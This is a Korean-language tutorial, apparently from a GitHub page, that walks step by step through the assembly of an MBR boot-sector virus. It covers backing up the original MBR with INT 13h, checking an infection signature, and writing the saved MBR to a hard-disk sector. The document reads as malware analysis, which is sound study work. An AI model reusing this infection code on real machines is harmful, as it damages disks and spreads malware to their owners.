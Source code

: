 **⭐ STEP 10 - 플로피디스크 - 2**  
다음 코드는 원본 MBR을 여유공간의 바이러스 뒤에 백업하는 과정이다.
``` asm
floppyboot:
			...
		push    cs
		pop     es
		mov     ax,201h
		mov     bx,200h
		mov     cx,1
		mov     dx,80h
		int     13h
		jc      exitvirus
```
* cs를 백업한다(7C00)
* 스택에서 cs를 꺼내 es에 넣어 es도 메모리 뒤 2KB를 가리키도록 한다.
* ax에 201h를 넣어 인터럽트 13의 2번함수를 지정하고, 한개의 섹터를 읽도록 지정한다.
* bx에 200h를 넣어 여분 공간에 존재하는 악성코드 뒤 오프셋을 가리키도록 한다.
* cx에 1을 넣어 0번 실린더, 1번 섹터를 가리킨다.
* dx에 80h를 넣어 0번 헤드 80h와 상응하는 장치를 지정한다.
* 인터럽트 13번 2번 함수를 호출해서 CHS(0,0,1)로부터 1개의 섹터를 여유공간의 바이러스 뒤에 읽어 원본 MBR을 백업한다.

**⭐ STEP 10 - 플로피디스크 - 3**  
다음 코드는 백업한 원본 MBR의 처음 4바이트 시그니처를 바이러스와 비교하여 감염여부를 확인하는 코드다.
``` asm
floppyboot:
			...
		xor     si,si
		cld
		lodsw
		cmp     ax,[bx]
		jne     infectharddisk
		lodsw
		cmp     ax,[bx+2]
		jne     infectharddisk
```
* si를 초기화한다.
* Direction 플래그를 설정한다.(인덱스 증가방향)
* 여분공간의 맨 처음(DS:SI)을 읽어 ax에 저장한다.
* 백업한 정상 MBR 첫 두 바이트와 바이러스 첫 두 바이트를 비교한다.
* 시그니처가 다르다면 infectharddisk로 분기한다.
* 우연의 일치의 상황을 막고자 다음 두 바이트를 불러온다.
* 뒤 두 바이트의 시그니처를 비교한다.
* 감염되지 않았다면 역시 infectharddisk로 점프한다.  
*감염되었다면 다음 exitvirus 로직으로 넘어가 악성코드를 종료한다.*

**⭐ STEP 11**  
지금까지가 감염 여부 확인이었다면 이제부터는 실제 감염동작이 시작된다. 다음 코드는 디스크 여유공간에 원본 MBR을 저장하는 과정이다.
``` asm
infectharddisk:
		mov     cx,7
		mov     firstsector,cx
		mov     ax,301h
		mov     dx,80h
		int     13h
		jc      exitvirus
```
* cx에 7을 넣는다.(HDD임을 표시하는 숫자)
* 감염이 안됐다는 것은 해당 디스크는 HDD라는 것을 알 수 있으므로 firstsector에 cx를 넣는다.
* ax에 301h를 넣어 인터럽트 3번 함수를 지정하고, 1개의 섹터를 작성하도록 지정한다.
* dx에 80h를 넣어 0번 헤드를 지정하고, HDD(80h)에 작성할 것임을 지정한다.
* 인터럽트 13번 3번 함수를 호출해서 HDD CHS(0,0,7)에 백업한 원본 MBR(ES:BX)을 복사한다.
* 실패하면 캐리 플래그를 검사하여 exitvirus로 분기해서 종료한다.
